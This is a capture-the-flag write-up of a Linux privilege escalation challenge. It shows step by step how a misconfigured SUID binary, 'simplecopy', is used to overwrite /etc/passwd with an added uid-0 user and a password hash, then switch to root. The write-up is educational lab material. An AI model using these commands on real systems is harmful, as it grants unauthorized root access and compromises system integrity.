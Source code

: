 # OBJECTIVE 7 - Linux PrivEsc

## OBJECTIVE  
Help Rosemold in the Ostrich Saloon on the Island of Misfit Toys escalate privileges on a Linux system to uncover a hidden island tip.

## Hints

Hints provided for Objective 7  
- There's [various ways](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/) to escalate privileges on a Linux system.  
- Using the privileged binary to overwrite a file could work, but there’s a more clever approach with the right argument.

---

## My Approach

### Step 1: Identifying SUID Binaries  
I started by listing all binaries in `/bin` that have the SUID bit set, meaning they run with root privileges:

```bash
ls -la /bin | grep rwsr
```

Among the usual suspects like `passwd`, `su`, and `mount`, I noticed an unfamiliar one: `simplecopy`.

### Step 2: Crafting a Malicious /etc/passwd File  
Since `simplecopy` runs as root, I realized I could use it to overwrite system files like `/etc/passwd`. I made a copy of the current passwd file:

```bash
cat /etc/passwd > /tmp/new-passwd
```

Next, I created a password hash for a new user using Perl:

```bash
perl -le 'print crypt("snowballz", "abc")'
```

This returned a hash: `abCF8jIEHXtsw`

I then added a new root-level user to the end of the copied file:

```bash
echo super-elf:abCF8jIEHXtsw:0:0:root:/root:/bin/bash >> /tmp/new-passwd
```

### Step 3: Overwriting /etc/passwd  
Using `simplecopy`, I replaced the system’s passwd file with my modified version:

```bash
simplecopy /tmp/new-passwd /etc/passwd
```

### Step 4: Switching to Root  
I switched to my newly created user:

```bash
su super-elf
```

After entering the password `snowballz`, I confirmed I had root access:

```bash
whoami
# root
```

### Step 5: Completing the Challenge  
I navigated to the root directory and executed the final binary:

```bash
cd /root
./runmetoanswer
```

## Result

I successfully escalated to root using the `simplecopy` SUID binary and completed the objective by running the final executable located in `/root`.

## Lessons Learned

This challenge demonstrated a classic Linux privilege escalation technique—using a misconfigured SUID binary to overwrite sensitive files. It reinforced how dangerous writable system files can be when paired with improper permissions and showed the power of knowing how Linux authentication works at the file level.
